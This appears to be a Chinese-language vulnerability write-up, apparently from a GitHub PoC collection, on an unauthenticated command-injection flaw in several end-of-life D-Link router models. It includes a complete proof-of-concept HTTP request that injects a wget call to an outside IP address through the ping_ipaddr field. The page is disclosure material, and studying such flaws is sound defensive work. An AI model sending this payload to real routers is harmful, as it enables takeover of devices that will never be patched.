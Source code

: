 ## D-Link路由器曝出RCE漏洞，牵涉多个型号  

### 简介

> Fortinet旗下FortiGuard实验室的研究人员披露了D-Link路由器上的一个远程命令执行漏洞，牵涉多个型号  

### 相关文章

> https://www.fortinet.com/blog/threat-research/d-link-routers-found-vulnerable-rce.html  
> https://nosec.org/home/detail/3020.html  

### 根据作者披露的受影响型号为：

- DIR-655
- DIR-866L
- DIR-652
- DHP-1565

## POC 如下

> 攻击者可以利用该漏洞将任意字符串发送到“PingTest”网关接口来实现命令注入。

```
POST /apply_sec.cgi HTTP/1.1
Host: 192.168.232.128
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: vi-VN,vi;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 131
Connection: close
Referer: http://192.168.232.128/login_pic.asp
Cookie: uid=1234123
Upgrade-Insecure-Requests: 1
html_response_page=login_pic.asp&action=ping_test&ping_ipaddr=127.0.0.1%0awget%20-P%20/tmp/%20http://45.76.148.31:4321/?$(echo 1234)
```

> “该漏洞始于一次错误的身份验证过程。当我们要进入管理页面时，需要执行登录操作。此时，我们会对`apply_sec.cgi`页面发出`POST`请求，其中包含一个操作`ping_test`。研究后发现，我们可通过参数`ping_ipaddr`执行命令注入。虽然响应是返回登录页面，但操作`ping_test`仍然执行了，我们通过参数`ping_ipaddr`注入的命令`echo 1234`成功执行，并将结果发送回我们的服务器。” 
>
> 
>
> **专家们发现，由于糟糕的身份权限检查，即使无用户权限，也可以远程执行命令。**

> 研究人员在9月22日向D-Link报告了漏洞，而厂商在两天后承认漏洞存在，并在三天后确认不会发布相关补丁，因为这些产品都已经到了生命周期的终点。

